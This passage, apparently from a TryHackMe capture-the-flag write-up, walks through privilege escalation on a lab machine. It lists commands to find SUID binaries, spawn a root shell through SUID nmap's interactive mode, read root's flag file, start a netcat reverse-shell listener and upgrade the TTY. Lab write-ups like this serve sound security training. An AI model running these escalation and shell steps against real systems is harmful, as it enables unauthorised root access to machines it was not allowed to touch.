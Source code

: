 1. Enumerate SUID/SGID files. Note: use the corrected `find` syntax (`/` for any bit). The deprecated `-perm +6000` is why some searches fail. Use:

```bash
sudo find / -type f -perm /6000 2>/dev/null | grep '/bin/'
```

2. Inspect unusual SUID binaries. In this machine `nmap` was present with the SUID bit set — an unusual configuration that can be abused.

3. Check GTFOBins entry for `nmap` and follow the shell trick. One working method is to invoke the interactive mode and then spawn a shell. Example:

```bash
# run nmap interactively and execute a shell
nmap --interactive
# at the nmap prompt (that appears), run:
!sh
# As this nmap is SUID root, the spawned sh will be a root shell.
whoami
# should print: root
```

4. Once root, read the final flag:

```bash
cat /root/root.txt
# copy final key into TryHackMe
```

---

## Flags

- **User flag:** `PLACEHOLDER_USER_FLAG`  *(replace with your `user.txt` content)*
- **Root flag:** `PLACEHOLDER_ROOT_FLAG`  *(replace with your `root.txt` content)*

---

## Commands summary (copy/paste)

```bash
# Host discovery & enumeration
nmap -sC -sV -p- -T4 -oA nmap/initial 10.10.X.X
nmap -sC -sV -p22,80,443 -oA nmap/targeted 10.10.X.X

# Web enumeration
gobuster dir -u http://10.10.X.X -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words.txt -t 50 -o gobuster/root.txt
curl -sS http://10.10.X.X/robots.txt

# decode base64
echo 'BASE64_STRING' | base64 -d

# start listener (on attacker)
nc -lvnp 9010

# after shell, upgrade TTY
python3 -c 'import pty; pty.spawn("/bin/bash")'

# check for SUID/SGID
sudo find / -type f -perm /6000 2>/dev/null | grep '/bin/'

# abuse nmap if SUID
nmap --interactive
# then at the nmap prompt
!sh

```